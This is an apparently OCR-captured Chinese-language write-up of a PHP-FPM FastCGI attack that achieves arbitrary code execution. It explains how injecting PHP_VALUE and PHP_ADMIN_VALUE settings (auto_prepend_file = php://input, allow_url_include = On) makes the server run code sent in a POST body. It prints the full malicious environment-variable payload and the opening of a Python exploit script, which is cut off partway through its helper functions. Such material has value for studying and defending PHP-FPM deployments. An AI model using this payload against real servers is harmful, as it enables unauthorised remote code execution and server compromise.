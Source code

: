 **任意代码执行**  

    PHP.INI 中有两个有趣的配置项，auto_prepend_file 和 auto_append_file。auto_prepend_file 是告诉 PHP，在执行目标文件之前，先包含 auto_prepend_file 中指定的文件；auto_append_file 是告诉 PHP，在执行完成目标文件后，包含 auto_append_file 指向的文件。  
    那么假设我们设置 auto_prepend_file 为 php://input，那么就等于在执行任何 php 文件前都要包含一遍 POST 的内容。所以，我们只需要把待执行的代码放在 Body 中，他们就能被执行了。（当然，还需要开启远程文件包含选项 allow_url_include）  
    那么，如何设置 auto_prepend_file 的值？这又涉及到 PHP-FPM 的两个环境变量，PHP_VALUE 和 PHP_ADMIN_VALUE。这两个环境变量就是用来设置 PHP 配置项的，PHP_VALUE 可以设置模式为 PHP_INI_USER 和 PHP_INI_ALL 的选项，PHP_ADMIN_VALUE 可以设置所有选项。（disable_functions 除外，这个选项是 PHP 加载的时候就确定了，在范围内的函数直接不会被加载到 PHP 上下文中）所以，我们最后传入如下环境变量

```
{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '12345',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

**复现**

使用 exp

```
import socket
import random
import argparse
import sys
from io import BytesIO
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
 
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
 
def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')
 
def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
```